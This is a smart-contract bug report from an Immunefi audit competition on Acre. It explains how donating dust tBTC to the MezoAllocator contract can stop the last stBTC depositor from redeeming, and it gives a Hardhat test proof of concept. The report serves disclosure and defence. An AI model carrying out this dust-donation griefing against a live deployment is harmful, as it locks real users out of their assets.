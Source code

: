 # #34748 \[SC-Low] Last withdrawer can be prevented from withdrawing their assets

**Submitted on Aug 23rd 2024 at 12:50:40 UTC by @trachev for** [**Audit Comp | Acre**](https://immunefi.com/audit-competition/boost-acre)

* **Report ID:** #34748
* **Report Type:** Smart Contract
* **Report severity:** Low
* **Target:** https://sepolia.etherscan.io/address/0x7e184179b1F95A9ca398E6a16127f06b81Cb37a3
* **Impacts:**
  * Contract fails to deliver promised returns, but doesn't lose value
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

By donating dust to the \`MezoAllocator\` contract a malicious actor can prevent a user from redeeming their shares.

## Vulnerability Details

The number of assets that a share is worth is calculated using the \`totalAssets\` function of stBTC. \`totalAsssets\` returns the tBTC balance of stBTC, the \`totalDebt\` and \`dispatcher.totalAssets()\`. \`dispatcher.totalAssets()\` includes tBTC deposited into \`MezoPortal\` and also tBTC sent directly to \`MezoAllocator\` that are yet to be allocated to the portal. The issue is that those tBTC cannot be withdrawn from \`MezoAllocator\` until they have been allocated to the portal. As a result, they can make a user's shares be worth more than the total assets that can actually be withdrawn. This attack can be repeated multiple times as it requires an extremely small amount of dust to make the function revert, in the PoC only 100 wei is used.

## Impact Details

If there is only one depositor in stBTC, they can be prevented from withdrawing. The user is griefed and the attack can be performed repeatedly.

## References

https://github.com/thesis/acre/blob/dc156f5a7f02142c1f80627267d14a26e5c99b30/solidity/contracts/stBTC.sol#L474-L479

## Proof of Concept

## Proof of Concept

Place this code in the \`MezoAllocator.test.ts\` file, inside of the "MezoAllocator" describe block.

describe("POC\_last\_withdraw\_fails", () => { beforeAfterSnapshotWrapper()

```
it(&quot;Should revert when last user withdraws&quot;, async () &#x3D;&gt; {
  let assetsToDeposit &#x3D; to1e18(1n)
  await tbtc.mint(depositor.address, assetsToDeposit)

  await tbtc
    .connect(depositor)
    .approve(await stbtc.getAddress(), assetsToDeposit)
    

  //depositor deposits in stbts
  await stbtc
    .connect(depositor)
    .deposit(assetsToDeposit, depositor.address)

  //allocate to mezo portal
  await mezoAllocator.connect(maintainer).allocate()

  //mint dust (only 100 wei, with 2 wei reverts as well), 
  //that is yet to be allocated, so that the total assets is inflated
  await tbtc.mint(mezoAllocator, 100)

  //reverts with a panic code 0x11 due to an arithmetic oveflow
  await stbtc.connect(depositor).redeem(await stbtc.balanceOf(depositor.address), depositor.address, depositor.address)
})
```

})
